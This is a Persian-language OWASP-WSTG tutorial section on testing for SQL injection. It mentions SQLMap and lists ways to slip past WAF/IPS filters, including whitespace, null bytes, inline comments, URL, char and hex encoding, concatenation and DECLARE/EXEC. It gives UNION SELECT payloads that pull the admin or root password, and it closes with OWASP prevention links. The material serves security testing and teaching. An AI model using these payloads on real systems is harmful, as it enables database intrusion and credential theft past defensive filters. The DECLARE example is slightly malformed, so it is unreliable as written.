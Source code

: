 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### بررسی Automated Exploitation

بسیاری از شرایط و تکنیک‌های ارائه‌شده در اینجا را می‌توان به صورت خودکار و با استفاده از برخی ابزارها انجام داد. یکی از ابزارهای کاربردی در حوزه بررسی و اکسپلویت آسیب پذیری SQL Injection، ابزار SQLMap می باشد. در مقاله زیر، اطلاعاتی در مورد نحوه انجام یک بررسی خودکار با استفاده از SQLMapبیان شده است.

https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap


### بررسی SQL Injection Signature Evasion Techniques

این تکنیک‌ها برای دور زدن سیستم‌های دفاعی مانند فایروال‌های نرم‌افزاری وب (WAF)‏ یا سیستم‌های پیش‌گیری از نفوذ (‏IPS) مورد استفاده قرار می‌گیرند که در ادامه به برخی از آن‌ها اشاره شده است. البته شما می‌توانید جهت مطالعه بیشتر به لینک زیر نیز مراجعه نمایید:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### روش Whitespace

یکی از روش های عبور از سیستم های امنیتی، کاهش فضا یا اضافه کردن فضاهایی است که بر دستورات SQL تاثیر نخواهند گذاشت.
```sql
or 'a'='a'
or 'a'  =  'a'
```
نمونه ای دیگر، اضافه کردن کاراکتر خاص مانند خط جدید یا tab است که اجرای دستورات SQL را تغییر نخواهد داد. برای مثال:


```sql
or
'a'=
        'a'
```

### روش Null Bytes

از Null Bytes (%00)‏ قبل از هر کاراکتری که برنامه (یا سیستم فیلترینگ برنامه) آن را مسدود می‌کند استفاده کنید.

برای مثال، اگر مهاجم قصد تزریق SQL زیر را تزریق داشته باشد:
```sql
' UNION SELECT password FROM Users WHERE username='admin'--
```
اضافه کردن Null Bytes در آن به صورت زیر خواهد بود:
```sql
%00' UNION SELECT password FROM Users WHERE username='admin'--
```
یا حتی به شکل زیر میتوان استفاده کرد:
```sql
' UN%00ION SE%00LE%00CT password FR%00OM U%00ser%00s W%00H%00E%00RE username='admin'%00-%00-
```
مورد بالا درصورتی استفاده میشود که WAF کلمات ورودی را پایش و عبارات دستوری SQL را درصورت مشاهده، حذف میکند.

### روش SQL Comments

اضافه کردن Inline Comment ها درSQL نیز می‌تواند به معتبر ماندن دستورات SQL و دور زدن فیلتر تزریق SQL کمک کند. این تزریق SQL زیر را به عنوان مثال در نظر بگیرید:
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```

اضافه کردن Inline Comment ها در آن به صورت زیر خواهد بود:
```sql
'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/ 'admin'--
' /**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE /**/ 'admin'--
```

### روش URL Encoding

روش دیگری که از آن می‌توان برای عبور از سیستم‌های امنیتی بهره برد، استفاده از کدگذاری URL برای کدگذاری دستورات SQL است.
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```
کدگذاری URL برای تزریق SQL به شکل زیر خواهد بود:
```sql
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
```
### روش Character Encoding

از تابع char() می‌توان برای جایگزین کردن کاراکترها استفاده کرد. به عنوان مثال، char(114,111,111,116) به معنی root است.
```sql
' UNION SELECT password FROM Users WHERE name='root'--
```

پس از اعمال char() تزریق SQL به شکل زیر خواهد بود:
```sql
' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--
```
### روش String Concatenation

متد Concatenation یا الحاق، کلمات کلیدی SQL را شکسته (به دو یا چند قسمت تقسیم نموده) و می‌تواند منجر به عبور از مکانزیم های امنیتی شود. Syntax الحاق براساس پایگاه‌داده متفاوت خواهد بود. پایگاه‌داده MSSQL را به عنوان مثال در نظر بگیرید.
```sql
SELECT 1
```
عبارت SQL ساده را می توان به صورت زیر با استفاده از الحاق تغییر داد.
```sql
EXEC('SEL' + 'ECT 1')
```
### روش Hex Encoding

تکنیک کدگذاری Hex از کدگذاری Hexadecimal برای جایگزین کردن دستور SQL اصلی استفاده می‌کند. برای مثال عبارت root می‌تواند به صورت 726F6F74 نمایش داده شود.

```sql
Select user from users where name = 'root'
```

عبارت SQL با استفاده از مقدار HEX به صورت زیر خواهد بود:
```sql
Select user from users where name = 726F6F74
```
یا
```sql
Select user from users where name = unhex( '726F6F74')
```

### روش Declare Variables

روش دیگری که می توان از آن استفاده نمود، استفاده از Declare است. با استفاده Declare شما می توانید دستورات تزریق SQL خود را تعریف و اجرا نمایید.
برای مثال، عبارت تزریق SQL زیر را در نظر بگیرید:
```sql
UNION SELECT password
```

عبارت SQL خود را در متغیر SQLivar تعریف کنید:
```sql
; declare @SQLivar nvarchar(80); set @myvar N'UNI' + N'ON' + N' SELECT' + N'password'); EXEC(@SQLivar)
```


### با با متد Alternative Expression


```sql
OR 'SQLi' ='SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 1
1 || 1 = 1
1 && 1 = 1
```

### راهکار Remediation

برای ایمن کردن برنامه از آسیب‌پذیری‌های تزریقSQL، می‌توانید به CheatSheet پیش‌گیری از تزریق SQL مراجعه کنید:

* cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
* cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html
* cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html

